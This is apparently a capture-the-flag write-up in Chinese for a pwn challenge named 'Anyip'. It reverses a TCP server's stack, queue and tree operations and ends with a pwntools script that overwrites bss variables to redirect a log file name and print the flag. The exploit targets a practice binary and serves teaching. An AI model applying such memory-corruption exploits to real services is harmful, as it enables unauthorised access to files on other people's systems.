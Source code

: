 # Anyip

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |yes   |

## 解题思路

题目实现了一个最基础的tcp服务器，用户需要输入二进制内容和它进行交互。
根据读取缓冲区并parse的函数，可以总结出以下输入的规律：

![struct](assets/struct.png)

其中 *action* 可以是`0x1111`, `0x2222`, `0x3333`或`0x4444`，分别对应树打印、
栈操作、树构建和队列操作。

其中栈和队列的操作比较好逆，可以通过 *opt* 来控制退栈和压栈等。
其中logname会在一开始按时间戳生成一个，我们不能通过打log来获取它的输出。
观察到操作栈时，压栈有检查，退栈却没有，分析bss上的布局，
我们可以覆盖到控制队列的`rear`。入队的时候直接用了`rear`来访问队列，
随后`rear = (rear + 1) % 10`，因此我们控制`rear`后可以向后方写入一个数字 *buf* 。
最简单的就是控制`bp`，然后我们就可以无限压栈，压到`sp`后，将`logname`的偏移压入其中，
接着就可以控制log文件的名字了。

![layout](assets/bsslayout.png)

再然后就是难逆的树操作了。一开始还不太好看出来，因为有个0x50大小的结构体，
却没有任何信息。最后在一堆函数里找到这么个字符串：`"cannot create std::deque larger than max_size()"`，
借助C++编译一个空的deque然后-g生成调试符号，终于在Ghidra里读到了整个结构体的全貌，
同时也推出了其他的库函数，可以分析了。最后还原出的树构建的函数大约是这样的：

> [!TIP]
> 当不开优化选项时，C++的大量函数模板实例化后没有内联，导致这道题的很多函数是空的，
> 逆向难度变相提高了。如果开启了编译选项，结构体信息会全部打包进ELF中，使用反编译软件可以读取之，
> 从而方便我们backport类的结构体到题目中。（虽然还是要猜它是什么类）

```c
struct Node {
    char ch;
    Node *lchild;
    Node *rchild;
} *root;

void insert(char ch) {
    deque<Node *> dequeue;
    Node *node = root;
    dequeue.push_back(node);
    while (!dequeue.empty()) {
        node = dequeue.front();
        if (!node->lchild || !node->rchild)
            break;
        dequeue.push_back(node->lchild);
        dequeue.push_back(node->rchild);
        dequeue.pop_front();
    }
    if (!node->lchild)
        node->lchild = new Node(ch);
    else
        node->rchild = new Node(ch);
}

void tostring(string &acc) {
    Node *node = root;
    while (node || !dequeue.empty())
        if (node) {
            dequeue.push_back(node);
            node = node->lchild;
        } else {
            node = dequeue.back();
            acc += node->ch;
            dequeue.pop_back();
            node = node->rchild;
        }
}
```

根据以上代码，在插入节点时，使用BFS方式填充节点（也就是数组平铺式），
在构建字符串时使用中序遍历取出节点。在树打印函数中，如果中序遍历树得到`SomeIpfun`，
那么就会打开log文件并输出其中的内容。这也是唯一的输出内容的地方。

因此控制树节点使其中序遍历为`SomeIpfun`，并劫持`logname`为`"flag"`就可以输出flag。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './anyip'

def payload(lo: int):
    global sh, server
    if lo:
        if lo & 4 or not isinstance(server, process):
            server = process(EXE)
        if lo & 2:
            gdb.attach(server)
        sh = remote('127.0.0.1', 9999)
    else:
        sh = remote('', 9999)

    def encode(op: int, option: int, buf: bytes) -> bytes:
        return p16(op) + b'\0' + p8(option) + p64(0) + p32(0x701) + buf

    def send(buf: bytes):
        sh.send(buf)
        sleep(0.125)

    info('Setting up bp to bypass stack limitation')
    for _ in range(5):
        send(encode(0x2222, 2, b'')) # stack pop
    send(encode(0x2222, 1, b'27'))   # stack push: [rear] = &sp - &queue
    send(encode(0x4444, 1, b'4096')) # queue push: [bp] = 0x1000
    info('Setting sp to 16 to mod logname')
    for _ in range(14):
        send(encode(0x2222, 1, b'0'))
    send(encode(0x2222, 1, b'16'))   # stack push: [sp] = &logname - &stack
    info('Now set logname as "flag"')
    send(encode(0x2222, 1, str(u32(b'flag')).encode()))
    send(encode(0x2222, 1, b'0'))    # logname = "flag"

    info('Setting up char tree')
    sh.send(encode(0x3333, 3, b'p'))
    sh.send(encode(0x3333, 1, b'e'))
    sh.send(encode(0x3333, 1, b'u'))
    sh.send(encode(0x3333, 1, b'o'))
    sh.send(encode(0x3333, 1, b'I'))
    sh.send(encode(0x3333, 1, b'f'))
    sh.send(encode(0x3333, 1, b'n'))
    sh.send(encode(0x3333, 1, b'S'))
    sh.send(encode(0x3333, 1, b'm'))

    info('Now print the flag!!!')
    sh.send(encode(0x1111, 2, b''))

    sh.recvuntil(b'flag{')
    flag = b'flag{' + sh.recvuntil(b'}')
    success(f"Flag is: {flag.decode()}")
    sh.close()
```
